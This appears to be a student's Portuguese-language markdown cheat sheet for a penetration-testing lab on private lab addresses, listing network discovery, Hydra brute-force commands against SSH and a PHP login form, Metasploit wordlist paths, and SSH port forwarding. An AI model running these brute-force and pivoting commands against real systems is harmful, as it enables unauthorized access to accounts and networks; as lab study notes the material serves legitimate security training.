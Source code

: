 # COMANDOS E PASSOS IMPORTANTES

- verificar ip

  `ip -br -c a`

- verificar dispositivos conectados na mesma rede

  `netdiscover -i eth0 -P -r 192.168.56.0/24`

- verificar portas abertas

  `netstat -nltp`

  ## Caminhos de pastas importantes

  /usr/share/wordlists/metasploit

  http_default_user.txt

  http_default_pass.txt

  ## Possivel passo a passo

  Entrar no servidor:

  por meio de usuário dado e ataque de força bruta

  - `hydra -L user.txt -P pass.txt ssh://192.168.10.10`

  ataque de força bruta sem nada

  - `hydra -L pass_user_injection.txt -P pass_user_injections.txt 192.168.100.20 http-post-form "/login.php:login=ÛSER^&senha=^PASS^:F=incorretor" -o found2.txt -f`

  Depois de descobrir fazer tunelamento ssh

  - `ssh -p 2222 aluno@192.168.100.20`

  Verificar serviços e portas abertas

  - serviço -> colocar ip do servidor no navegador
 
  - portas -> `netstat - nltp`

  - inspecionar página para ver se não encontra nada
 
  Se tiver outra porta aberta sera necessário fazer redirecionamento de portas local, então sair do servidor e:

  - `ssh -L portaLocal:localhost:portaRemota aluno@192.168.100.20`
  
  
